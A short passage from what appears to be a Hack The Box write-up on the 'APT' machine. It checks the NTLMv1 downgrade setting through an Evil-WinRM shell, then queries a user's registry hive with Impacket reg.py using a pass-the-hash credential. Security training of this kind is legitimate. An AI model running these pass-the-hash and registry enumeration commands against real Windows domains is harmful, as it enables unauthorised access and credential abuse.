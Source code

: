 > Client devices use NTLMv1 authentication, and they use NTLMv2 session security if the server supports it. Domain controllers accept LM, NTLM, and NTLMv2 authentication.

NTLMv1 is insecure, and can be abused. I’ll verify it is set that way on APT:

```
*Evil-WinRM* PS C:\> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel


lmcompatibilitylevel : 2
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control
PSChildName          : Lsa
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```

## Enumerate registry

When a user logs in, their registry hive is mounted to HKCU , which is unique to each user. However, user hives can also be accessed via the HKEY\_USERS (HKU) hive. This stores registry entries for all users on the system. Impacket's reg.py can be used to enumerate the registry.

![](<../../.gitbook/assets/image (16).png>)

```
reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@htb.local query -keyName HKU\\Software\\GiganticHostingManagementSystem
```

